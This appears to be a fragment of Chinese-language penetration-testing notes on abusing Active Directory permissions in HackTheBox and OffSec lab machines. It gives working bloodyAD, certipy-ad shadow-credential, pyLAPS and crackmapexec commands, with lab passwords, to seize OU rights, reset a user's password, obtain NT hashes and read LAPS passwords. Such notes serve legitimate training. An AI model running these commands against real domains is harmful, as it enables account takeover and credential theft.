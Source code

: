 ```bash
Get-DomainGroupMember -Identity ServiceMGMT
```


### Contanins
如果对 OU 有 GenericAll 的权限，目标又 Contains 在 Ou 中，那就修改自己对 Ou 的权限，修改自己在 Ou 中为所有权，即对 Ou 中所有的目标有 GenericAll 的权限
```bash
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend
```

**继续滥用**
0x01 直接修改密码
```bash
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb set password winrm_svc 'xekOnerR!'
```

0x02 影子凭据
```bash
certipy-ad shadow auto -username oorend@rebound.htb -password '1GR8t@$$4u' -k -account winrm_svc -target dc01.rebound.htb
```
拿到 NT hash 直接登录即可


- ### ReadLAPSPassword
python pyLAPS.py --action get -d "hutch.offsec" -u "fmcsorley" -p "CrabSharkJellyfish192"
```bash
python pyLAPS.py --action get -d "hutch.offsec" -u "fmcsorley" -p "CrabSharkJellyfish192"
```

crackmapexec 
```bash
crackmapexec ldap 192.168.219.122 -u fmcsorley -p CrabSharkJellyfish192 --kdcHost 192.168.219.122 -M laps
```


